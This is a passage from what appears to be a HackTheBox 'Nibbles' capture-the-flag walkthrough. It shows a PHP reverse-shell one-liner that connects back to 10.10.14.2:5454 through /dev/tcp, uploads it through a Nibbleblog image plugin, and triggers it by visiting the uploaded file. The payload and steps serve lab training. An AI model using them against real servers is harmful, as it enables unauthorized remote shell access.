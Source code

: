- Create a PHP revshell to upload to the server:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/5454 0>&1'"); ?>
```

- Upload the payload:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/nibbles/2_2_image.png" width="90%"/>
</p>

- Visit the image at:

http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php

- Get the revshell:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/nibbles/2_3_rev.png" width="90%"/>
</p>
